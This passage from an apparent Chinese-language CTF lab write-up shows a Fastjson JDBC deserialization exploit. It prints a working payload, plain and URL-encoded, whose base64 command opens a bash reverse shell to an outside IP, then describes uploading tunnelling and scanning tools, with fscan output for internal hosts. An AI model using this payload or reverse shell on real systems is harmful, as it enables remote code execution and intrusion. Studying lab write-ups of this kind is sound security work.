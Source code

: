 这里要注意一下，打 JDBC 洞用到的 cc6 这条链子对 java 的版本有要求的，只有使用的 openjdk version "1.8.0\_382"不能成功利用，换成 1.1.0 版本的就可以成功成功利用

payload

```plain
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```

url 编码一下

```plain
7B%20%22name%22%3A%20%7B%20%22%40type%22%3A%20%22java.lang.AutoCloseable%22%2C%20%22%40type%22%3A%20%22com.mysql.jdbc.JDBC4Connection%22%2C%20%22hostToConnectTo%22%3A%20%22120.77.200.94%22%2C%20%22portToConnectTo%22%3A%203306%2C%20%22info%22%3A%20%7B%20%22user%22%3A%20%22yso_CommonsCollections6_bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22%2C%20%22password%22%3A%20%22pass%22%2C%20%22statementInterceptors%22%3A%20%22com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%22%2C%20%22autoDeserialize%22%3A%20%22true%22%2C%20%22NUM_HOSTS%22%3A%20%221%22%20%7D%20%7D
```

[![](assets/1707954377-1af258fd67f16b09d47a4287072e1e95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173751-109698b2-c341-1.png)

成功弹到 shell 并取得 flag

## flag2

我们先上传我们的三大件，agent，frpc，fscan

上传完成后我们用 fscan 扫一下

```plain
___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.3.12     is alive
(icmp) Target 172.22.3.2      is alive
(icmp) Target 172.22.3.9      is alive
(icmp) Target 172.22.3.26     is alive
[*] Icmp alive hosts len is: 4
172.22.3.9:8172 open
172.22.3.2:135 open
```
